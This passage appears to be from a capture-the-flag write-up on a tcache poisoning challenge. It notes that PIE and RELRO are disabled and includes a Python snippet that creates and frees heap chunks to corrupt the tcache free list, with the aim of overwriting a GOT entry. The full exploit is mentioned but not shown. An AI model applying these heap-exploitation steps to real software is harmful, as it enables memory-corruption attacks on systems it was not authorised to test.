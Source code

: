 Let's take a look at checksec before we continue, to see what we're working with:

![checksec output](./images/checksec.png "checksec output")

Both PIE and RELRO are disabled, so this is as straight forward tcache poisoning as we were promised. This means we can overwrite a GOT pointer at a predictable address. 

Tcache poisoning involves corrupting the linked list of free tcache bins to create heap chunks whereever we want. To illustrate, we can run the script, create three chunks and then delete those chunks with the code below (see the full exploit at the bottom for my gdb.attach() method etc.).

```py
def send(payload):
    p.recvuntil(b">") # thank you nordbo
    p.sendline(payload)

send(b"1") #create (malloc)
send(b"0")

send(b"1") #create (malloc)
send(b"1")

send(b"1") #create (malloc)
send(b"2")

send(b"4") #delete (free)
send(b"2")

send(b"4") #delete (free)
send(b"1")

send(b"4") #delete (free)
send(b"0")

p.interactive()
```

Notice that I free'd the chunks in the opposite order to the one i created them in. After running this and attaching with gdb, we can run visual-heap in gef to view the heap at the current moment:

![visual heap](./images/vis.png "visual heap")
